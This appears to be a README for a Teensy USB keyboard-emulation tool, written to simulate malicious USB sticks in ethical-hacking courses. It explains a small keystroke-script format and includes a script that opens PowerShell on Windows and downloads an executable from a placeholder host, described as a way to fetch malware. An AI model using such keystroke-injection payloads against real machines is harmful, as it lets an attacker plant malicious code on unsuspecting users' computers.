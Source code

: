 # teensy
Tools and projects all around the Teensy USB Development Board

## teensy_keyboard

Based on the Keyboard-Library and example from the Teensy Homepage:
https://www.pjrc.com/teensy/index.html

This program allows you to define a very simple string which is parsed and
sent as Keystrokes to the Computer after the Teensy gets pluged in.

I created this to simulate Malicious USB-Sticks in Ethical-Hackin courses
and presentations withing [ThinkArena](http://www.denkarena.ch/)

### Commands and Format

The String can be of Keystrokes, Strings and Pause:
* The `K:` is used to simulate a KeyStroke with a modifier key
* The `S:` is used to write a string and send the ENTER key at the end
* The `W:` is used to wait the given amount of milliseconds before the next line is processed

**Example**

Open Notepad and write something:
```
K: WIN R
W: 50
S: notepad
W: 200
S: You've just inserted a malicious USB-Stick.
S: Always take care about what you're connection
S: Cheers...
```

### Downlaod in Windows

Under Windows you can use something like this on Windows to download Maleware in a Powershell:

```Batchfile
$client = New-Object System.Net.WebClient
$client.DownloadFile("http://www.example.com/file.exe", "C:\")
```

This would result in a String like this:
```
K: WIN R
W: 50
S: powershell
S: $client = New-Object System.Net.WebClient
S: $client.DownloadFile("http://www.example.com/file.exe", "C:\")
```

